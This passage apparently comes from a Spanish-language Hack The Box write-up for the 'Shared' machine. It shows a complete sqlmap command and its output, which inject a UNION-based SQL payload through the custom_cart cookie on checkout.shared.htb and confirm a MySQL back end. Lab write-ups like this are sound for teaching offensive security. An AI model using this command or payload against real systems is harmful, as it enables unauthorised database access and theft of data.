 - También lo pudimos haber hecho con `sqlmap`.

```bash
➜  nmap sqlmap -u "https://checkout.shared.htb/" --cookie='custom_cart={"*":"1"}' --technique U --union-cols 3 --batch
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.8.3#stable}
|_ -| . [)]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:30:00 /2024-05-26/

custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] Y
[13:30:02] [INFO] testing connection to the target URL
[13:30:03] [INFO] checking if the target is protected by some kind of WAF/IPS
do you want to URL encode cookie values (implementation specific)? [Y/n] Y
[13:30:03] [WARNING] heuristic (basic) test shows that (custom) HEADER parameter 'Cookie #1*' might not be injectable
[13:30:04] [INFO] testing for SQL injection on (custom) HEADER parameter 'Cookie #1*'
[13:30:04] [INFO] testing 'Generic UNION query (NULL) - 3 to 3 columns (custom)'
[13:30:04] [WARNING] applying generic concatenation (CONCAT)
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[13:30:11] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql')
Deleting temporary files - please wait ... done.
[13:30:19] [INFO] (custom) HEADER parameter 'Cookie #1*' is 'Generic UNION query (NULL) - 3 to 3 columns (custom)' injectable
[13:30:19] [INFO] checking if the injection point on (custom) HEADER parameter 'Cookie #1*' is a false positive
(custom) HEADER parameter 'Cookie #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 58 HTTP(s) requests:
---
Parameter: Cookie #1* ((custom) HEADER)
    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns (custom)
    Payload: custom_cart={"' UNION ALL SELECT NULL,CONCAT(CONCAT('qzbxq','mDgXayJoyKUymjwMorkqAOaGsoWQfELOhEkSsvUp'),'qvbkq'),NULL-- qbYb":"1"}
---
[13:30:20] [INFO] testing MySQL
[13:30:21] [INFO] confirming MySQL
[13:30:22] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[13:30:22] [INFO] fetched data logged to text files under '/home/miguel/.local/share/sqlmap/output/checkout.shared.htb'

[*] ending @ 13:30:22 /2024-05-26/
```
